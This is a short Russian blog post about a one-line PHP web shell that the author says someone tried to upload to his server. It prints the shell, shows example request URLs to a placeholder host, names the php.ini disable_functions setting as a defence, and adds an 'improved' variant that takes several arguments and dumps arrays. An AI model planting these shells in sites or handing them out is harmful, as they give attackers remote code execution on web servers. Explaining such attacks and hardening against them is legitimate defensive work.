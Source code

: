 ```yaml
---
title: "Самый маленький PHP shell"
date: "2021-07-28T20:34:56.00Z"
description: "Или атаки хакеров на PHP в 2021 году  Давеча увидел в логах попытку залить такую вот штуку, решил поделиться. Это самый маленьки"
---
```


<p><strong>Или атаки хакеров на PHP в 2021 году</strong></p><p>Давеча увидел в логах попытку залить такую вот штуку, решил поделиться. Это самый маленький шелл:</p><pre><code class="language-php">&lt;?= @extract($_REQUEST); @die($callf($shargs));</code></pre><p>Собственно тут все просто. Для тех, кто не сразу увидел проблему, поясню: теперь подставляя в URL параметры ?callf=функция&amp;shargs=аргумент можно выполнить простые действия. Например:</p><pre><code>http://target.lol/foo/some?callf=date&amp;shargs=Y-m-d

Выведет результат работы date('Y-m-d')</code></pre><p>Это самое безобидно. А что можно натворить обидного нафантазируете сами. У меня этот шелл всеравно не сработал из-за настроек безопасности, самое простое это в php.ini перечислить функции для запрета:</p><pre><code class="language-bash">disable_functions = extract, ...</code></pre><p>И так далее. Тогда все функции, указанные в этой настройке будут считаться несуществующими.</p><p>Кстати, если бы я писал такой шел, то для 2021 года я бы его модифицировал так:</p><pre><code class="language-php">&lt;?= @extract($_REQUEST); @die(var_dump($callf(...$shargs)));</code></pre><p>Это позволяет передавать более одного аргумента, а так же позволяет возвращать массив данных (в отличие от предыдущего варианта):</p><pre><code>?callf=glob&amp;callf[]=*</code></pre><p>Выведет дамп массива файлов в текущем каталоге.</p>

